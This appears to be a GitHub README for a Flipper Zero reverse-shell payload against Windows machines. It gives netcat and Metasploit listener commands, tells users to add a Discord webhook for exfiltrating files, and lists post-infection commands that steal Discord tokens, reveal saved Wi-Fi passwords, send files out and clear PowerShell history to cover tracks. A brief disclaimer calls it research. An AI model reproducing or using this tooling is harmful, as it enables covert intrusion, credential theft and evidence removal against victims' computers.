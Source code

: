 # Reverse shell for Flipperzero

# Setup

1. listener setup
```
$ nc -nvlp <port_number>
```
or metasploit
```
$ use multi/handler
$ set payload windows/x64/shell/reverse_tcp
$ set lhost <ip address>
$ set lport <port number>
$ run
```

2. Insert the IP address and Port of your listener into the ReverseShell.txt file
3. Insert discord webhook for exfiltrating files to such in the ReverseShell.txt
   - use a url shortener for fast execution. 

# Disclaimer
I am not responsible for the usage of this utility, it is simply for researching and experimentation for myself. The user, YOU take full responsibility for your actions.

# Have fun!
Additional commands after infection

  /tgrizzly
  - exfiltrates discord tokens and saves them to C:\temp\output.txt

  /wifi
  - shows saved wifi passwords

  /discord (filename)
  - send the file to your discord webhook

  /clean
  - removes powershell history
